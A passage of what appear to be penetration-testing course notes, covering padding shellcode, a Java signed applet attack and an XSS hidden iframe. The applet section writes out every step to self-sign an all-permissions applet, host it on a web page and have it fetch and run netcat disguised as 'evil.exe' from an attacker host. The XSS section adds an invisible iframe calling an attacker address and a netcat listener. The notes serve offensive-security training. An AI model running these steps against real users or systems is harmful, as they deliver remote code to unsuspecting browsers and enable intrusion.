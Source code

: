 The resulting shellcode is 18 bytes smaller that the one used in the exploit. To keep the size similar, we can pad our shellcode with nops.

### Java Signed Applet Attacks

```text
//script code on pg 224
$ javac -source 1.7 -target 1.7 Java.java

$ echo “Permissions: all-permissions” > /root/manifest.txt

$ jar cvf Java.jar Java.class

$ keytool -genkey -alias signapplet -keystore mykeystore -keypass
mykeypass -storepass password123

[Unknown]:
Offensive Security
What is the name of your organizational unit?
[Unknown]: Ownage Dept
What is the name of your organization?
[Unknown]: Offensive Security
What is the name of your City or Locality?
[Unknown]: localhost
What is the name of your State or Province?
[Unknown]: 127.0.0.1
What is the two-letter country code for this unit?
[Unknown]: US
Is CN=Offensive Security, OU=Ownage Dept, O=Offensive Security, L=localhost,
ST=127.0.0.1, C=US correct?
[no]: yes

$ jarsigner -keystore mykeystore -storepass password123 -keypass mykeypass
-signedjar SignedJava.jar Java.jar signapplet

$ cp Java.class SignedJava.jar /var/www/html/

$ echo '<applet width="1" height="1" id="Java Secure" code="Java.class"
archive="SignedJava.jar"><param name="1"
value="http://10.11.0.5:80/evil.exe"></applet>' > /var/www/html/java.html

$ locate nc.exe

$ cp /usr/share/windows-binaries/nc.exe /var/www/html/evil.exe
```

## Web App Attacks

### XSS

```text
<iframe SRC="http://10.11.0.144/report" height = "0" width ="0"></iframe>

$ nc -nlvp 80
```
